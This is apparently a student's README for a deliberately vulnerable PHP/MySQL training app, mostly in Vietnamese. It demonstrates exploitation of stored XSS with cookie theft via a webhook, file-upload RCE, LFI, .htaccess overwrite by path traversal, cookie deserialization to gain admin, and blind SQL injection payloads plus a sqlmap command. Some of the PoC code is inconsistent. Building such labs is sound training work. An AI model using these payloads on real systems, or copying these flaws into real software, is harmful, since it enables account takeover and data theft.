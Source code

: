 
### Task 1 KCSC
- Technology : php, mysql, xdebug, mysqli

## I. Giới Thiệu : Demo basic vulnerability

# Login:
![Alt text](./image_Readme/image.png)
- Sau khi login sẽ chuyển đến index.php

# Remember user
- Click in remember me : hệ thống sẽ tự ghi nhớ user ghi đăng nhập lần tiếp theo


# Register
![Alt text](./image_Readme/image-1.png)
- Sau khi register sẽ chuyển đến login.php để đăng nhập

# Giao diện chính user

1, View post only by user
![Alt text](./image_Readme/image-2.png)

2, User can comment into post
![Alt text](./image_Readme/image-3.png)
![Alt text](./image_Readme/image-4.png)

3, User can view all of post by admin and click to read post details
![Alt text](./image_Readme/image-5.png)

# Giao diện phụ guest
![Alt text](./image_Readme/image-15.png)

# NavBar
![Alt text](./image_Readme/image-16.png)


# Menu user when click avatar option
If your role is admin, you can see dashboard else you can't
![Alt text](./image_Readme/image-6.png)
1, Dashboard admin only
  1.1, View main dashboard
  ![Alt text](./image_Readme/image-7.png)
  - Click in button  Back to MainPage to redirect index.php
  - Admin can see all of user
  ![Alt text](./image_Readme/image-8.png)

  1.2, Click in User in sidebar admin can see management users table have columns email, role, ...
  ![Alt text](./image_Readme/image-9.png)
  - Click in button Delete admin can delete this user
  - Click in button Edit admin can edit this user
  ![Alt text](./image_Readme/image-10.png)
  - Click in button Add user admin can view dialog add new user and click in add to add new user else close dialog
  ![Alt text](./image_Readme/image-11.png)

  1.3, Click in Post in sidebar admin can see management posts table have columns id, image, ...
  ![Alt text](./image_Readme/image-12.png)
  - Click in button Delete admin can delete this post
  - Click in button Edit admin can edit this post
  ![Alt text](./image_Readme/image-13.png)
  - Click in button Add post admin can view dialog add new post and click in add to add new post else close dialog
  ![Alt text](./image_Readme/image-14.png)
2, Change avatar
   ![Alt text](./image_Readme/image-17.png)
   You can upload file to use this avatar and we resize this avatar to 400x400

## II. Vulnerability in this demo APP

1, Store XSS

![Alt text](./image_Readme/image-18.png)
![Alt text](./image_Readme/image-19.png)
![Alt text](./image_Readme/image-20.png)
- Where edit and add users or port for admin
![Alt text](./image_Readme/image-28.png)

+ attack : có trong các trang index.php manage_post và user.
![Alt text](./image_rm/image.png)
- Sau khi login nếu click user_remember sẽ set cookie và check trong db có user không nếu có sẽ redirect qua trang index.php và set Session cho người dùng
- Sau đó em post 1 comment vào blog của admin hoặc bất kì user nào
![Alt text](./image_rm/image-1.png)
- Comment của em hiển thị với chức năng như 1 thẻ <script> trong page
![Alt text](./image_rm/image-2.png)
- Và đây là lỗ hổng store XSS vì em có lưu nội dung của comment trong database
![Alt text](./image_rm/image-3.png)
Bởi vì tất cả user sau khi đăng nhập đều có thể dùng page này nên em sẽ khai thác XSS<có thể thử hầu hết các payload của XSS và thành công> như sau: có thể dùng webhook hoặc pipedream.com để bắt cookie của victim ạ

- ở đây em dùng webhook
![Alt text](./image_rm/image-4.png)
Và sau khi load ảnh error thì sẽ gửi request đến webhook kèm cookie của nạn nhận với bất kì người dùng nào truy cập trang này
![Alt text](./image_rm/image-5.png)
![Alt text](./image_rm/image-6.png)



2, Upload file not filter basic
I will update filter for you try hard @@
![Alt text](./image_Readme/image-21.png)
![Alt text](./image_Readme/image-22.png)
![Alt text](./image_Readme/image-23.png) 


+attack:
![Alt text](./image_rm/image-7.png) 
- em upload 1 file php in ra nội dung của phpinfo();
![Alt text](./image_rm/image-8.png)
- Sau đó em mở file này ra thì được kết quả
![Alt text](./image_rm/image-9.png)
- Vậy là mình có thể upload bất kì đoạn code của php và RCE được sever

3, Local file inclusion <basic filter>
![Alt text](./image_Readme/image-24.png)
- Em truy cập vào trang guest.php và dùng fuff để fuzz thì tìm thấy có 1 param mà trang web nhận đó là page và sẽ include nội dung của bất kỳ file nào truyền vào
![Alt text](./image_rm/image-10.png)
- Em đọc được file .htaccess cho phép file txt được chạy như file php từ đó nếu đoạn upload file mà filter file php thì em có thể upload file txt và RCE tương tự như trên
- Em có thể đọc nội dung của bất kì trang nào bằng cách truyền vào param page này :<

4, Upload file to rewrite .htaccess
![Alt text](./image_Readme/image-25.png)
Example : I rewrite .htaccess allow run file txt same php
![Alt text](./image_Readme/image-26.png)
- có thể thấy là page đã hidden 1 ô input để điều khiển vị trị khi upload của người dùng
- Nếu em không thay đổi default thì page sẽ trỏ đến mặc định ạ còn nếu có thì sẽ gắn thêm path này vào route upload file
![Alt text](./image_rm/image-11.png)
- nên em sẽ lợi dụng để truyền thành upload via path traversal file .htaccess ạ
- Em để file .htaccess thành trống để xem thay đổi
![Alt text](./image_rm/image-12.png)
![Alt text](./image_rm/image-13.png)
- em đổi thành  ../../ để chuyển ra được thư mục chính cùng cấp với index và rewrite file .htaccess
![Alt text](./image_rm/image-14.png)
Lúc này em được quyền chạy file txt như là php và đây cũng là 1 cách đơn giản để vượt qua bypass đuôi file .php ạ.


5, Deserialize vulnerabilities
Chức năng remember me chứa lỗ hổng này . Khi remember me set remember_data và khi vào lại thì check cookie xem có không deserialize

attack :
- Khi mà login thì có check xem có ghi nhớ người dùng hay không Nếu mà có thì sau khi check user có tồn tại hay không thì sẽ seri sau đó sẽ serialize rồi base64 encode và lưu vào cookie với tên là user_remember
- Lần sau khi người dùng đăng nhập lại sẽ check nếu có cookie user_remember thì sẽ base64 decode và deserialize và gán thẳng vào $_SESSION của người dùng luôn nên lỗi ở đây là mình có thể chuyển role của người dùng thành admin và mình có thể authorization dasboard của admin ạ

![Alt text](./image_rm/image-15.png)
- Đây là hàm check ạ 
![Alt text](./image_rm/image-16.png)

Burp suite :
Em  tạo 1 tài khoản bất kì thì mặc định role là không phải admin sau đó em đăng nhập và ấn remeber me thì sẽ set user_remeber
POC.php
<?php
class User_remember
{
                                        private $id;
                                        private $username;
                                        private $email;
                                        private $admin;

                                        public function __construct($id, $username, $email, $admin)
                                        {
                                                                                $this->id = $id;
                                                                                $this->username = $username;
                                                                                $this->admin = $admin;
                                                                                $this->email = $email;
                                        }
                                        public function getName()
                                        {
                                                                                return $this->username;
                                        }
                                        public function getRole()
                                        {
                                                                                return $this->admin;
                                        }
                                        public function getId()
                                        {
                                                                                return  $this->id;
                                        }
                                        public function getEmail()
                                        {
                                                                                return $this->email;
                                        }
}

$attachment = new Attachment($id_default, $username_default, $email_default, 1);
echo base64_encode(serialize($attachment));

?>
sau đó 
POC.py
////
ookie = {'user_remember': base64_encode(serialize($attachment));}
r=requests.get(
    "http://localhost/task_KCSC/app/admin/index.php",
    cookies= cookie
)
data=json.loads(r.content.decode())
print(data['output'][4:])

///
cách bằng tay ạ :
![Alt text](./image_rm/image-18.png)
![Alt text](./image_rm/image-19.png)
Sau đó em chuyển thành 1 ở đoạn role 
![Alt text](./image_rm/image-20.png) 
và gắn vào lại cookie truy cập vào dasboard của admin
![Alt text](./image_rm/image-21.png)

-Em đang phát triển chức năng ghi logs to RCE<Lấy ý tưởng của KCSC recruite ạ>

6. Blind SQL injection
![Alt text](./image_Readme/image-29.png)
Hihi em không biết nên áp dụng blind sqli kiểu chi trong trường hợp product nên làm kiểu này ạ ^^

![Alt text](./image_rm/image-17.png)
- Đây là hàm dính lỗi ạ
![Alt text](./image_rm/image-22.png)
- nếu mà quản trị viên tìm email của user này nếu tồn tại sẽ trả về còn không thì sẽ không trả về gì ạ.
- Em sẽ sử dụng điều kiện và substring để dumb db ạ<em chưa dumb thử bằng sqlmap nhưng mà chắc cũng được ạ:v>
+ Đầu tiên em sẽ dùng payload email = llam16219@gmail.com' OR 1=1-- - câu lệnh query sẽ trở thành 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' OR 1=1-- -'" đoạn sau sẽ comments và câu lệnh đúng
+ sau đó em chuyển thành "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND 1=1-- -'"
+ Để check rằng 2 điều kiện của em là luôn đúng thì sẽ trả ra exist user
![Alt text](./image_rm/image-23.png)
- Nếu em không biết trước loại database thì em sẽ check xem loại db gì và ở đây em đã thử được của mysql 
- Sau đó sẽ tìm thông tin password, email trong database của admin bằng cách sau 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT length(password) FROM users WHERE role=1 LIMIT 1)>'$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number để check nếu không còn tồn tại User exists nữa thì sẽ là độ dài password tại đó

          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT SUBSTRING(password,$1,1) FROM users WHERE role=1 LIMIT 1)='$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number và brute-force tất cả chữ cái chữ số và kí tự đặc biệt và chọn pitch-force để check hết tất cả
Hihi cái này em băm mật khẩu ra md5 nên nó khá lâu ạ nên em xin phép chuyển qua check username ạ :<
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com'+AND+(SELECT+SUBSTRING(username,$1,1)+FROM+users+WHERE+role=1+LIMIT+1)+=+'$a'--+-'"
- có bước tìm length của password cũng tương tự ạ nhưng mà chỉ 1 payload number và dùng sniper ạ
![Alt text](./image_rm/image-25.png)
![Alt text](./image_rm/image-26.png)
![Alt text](./image_rm/image-27.png)
- Sau đó em chỉnh đoạn lọc của kết quả :
![Alt text](./image_rm/image-28.png)
+
![Alt text](./image_rm/image-29.png)
Đoạn cột 1 thì sẽ là vị trí của chuỗi ạ và đoạn code 2 là giá trị của chuỗi và ghép lại sẽ được username của user ạ
# Sử dụng sqlmap :
sqlmap -u "http://localhost/task_KCSC/app/admin/index.php" --data="email_exist=llam16219@gmail.com*&btn_emai_exist=" --method POST -dbs --batch để lấy tên tất cả các tables.



7, Cmd injection <đang phát triển> tại không biết nhiều ứng dụng khi dùng exec nên em chưa dùng nhiều :<
Trong main_upload_image để convert size image
![Alt text](./image_Readme/image-27.png)
mà tên file mình có thể config được nên có thể Blind Cmd injection mà này em chưa test linux nên chưa thử được ạ :3

8, Disclosure information
- Lộ file .htaccess and /robots.txt ạ:v


